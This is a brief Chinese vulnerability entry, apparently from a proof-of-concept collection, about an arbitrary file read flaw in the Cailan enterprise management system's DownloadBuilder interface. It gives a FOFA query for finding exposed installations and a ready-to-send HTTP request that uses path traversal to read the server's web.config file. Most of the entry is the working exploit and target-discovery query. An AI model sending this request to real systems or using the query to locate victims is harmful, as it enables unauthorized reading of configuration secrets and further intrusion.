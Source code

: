 **fofa**

```
body="cailsoft.com" || body="赛蓝企业管理系统"
```

**一、漏洞简述**

赛蓝企业经营管理系统是一款功能强大的管理软件，能够帮助企业提升管理效率，降低成本，实现可持续发展。在使用过程中，需注意与用友畅捷通旗下产品的配合，并随时寻求免费试用或在线咨询帮助，以保证系统的最佳使用效果。其接口DownloadBuilder存在任意文件读取漏洞，攻击者可通过该漏洞获取系统敏感信息。

**二、漏洞检测poc**

```yaml
GET /BaseModule/ReportManage/DownloadBuilder?filename=/../web.config HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close


```

